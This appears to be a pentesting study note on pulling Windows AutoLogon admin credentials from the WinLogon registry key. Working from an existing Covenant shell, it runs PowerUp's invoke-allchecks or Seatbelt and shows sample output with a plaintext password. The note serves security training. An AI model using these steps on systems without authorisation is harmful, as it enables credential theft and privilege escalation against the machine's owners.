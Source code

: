 # AutoLogon

## Target requirements

- The target need to have those values in the registry in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon`
  - AutoAdminLogon set to 1
  - DefaultDomainName with a valid domain set
  - DefaultUserName with a valid admin username
  - DefaultPassword with a valid admin pass  

This basically means that the target when restarted will logon automatically without prompting for username and password.

## Exploitation

- You should have a shell with covenant or metasploit or netcat.  
We will use Covenant here.

### Covenant with PowerUp

- In the shell we will type PowerShellImport, type enter and fetch PoweUp.ps1 (if you do not have it you can get it [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) )  
- Click on execute
- type `powershell invoke-allchecks` in your shell
- Once the command executed it will do all sorts of check and we should see something like this:
```
[*] Checking for Autologon credentials in registry...

DefaultDomainName    : domain
DefaultUserName      : f.lastanme
DefaultPassword      : password
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 

```

### Covenant with Seatbelt

- Check for it with `Seatbelt WindowsAutoLogon`

```
====== WindowsAutoLogon ======

  DefaultDomainName              : domain
  DefaultUserName                : f.lastanme
  DefaultPassword                : password
  AltDefaultDomainName           : 
  AltDefaultUserName             : 
  AltDefaultPassword             : 
```

## Resources

- [TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker](https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers)
